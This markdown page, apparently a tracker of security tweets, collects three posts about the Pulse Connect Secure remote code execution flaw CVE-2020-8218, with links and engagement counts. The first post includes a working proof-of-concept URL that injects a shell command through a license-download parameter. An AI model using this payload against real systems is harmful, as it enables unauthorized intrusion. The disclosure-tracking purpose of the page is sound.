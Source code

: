 
# jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# 0xrb
**https://twitter.com/0xrb/status/1300022222459777024 _at 2020-08-30 10:47:05_**
<blockquote>
Proof of concept tool to test for the existence of #PulseSecure #RCE (CVE-2020-8218) https://t.co/93AvVBq1WN
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---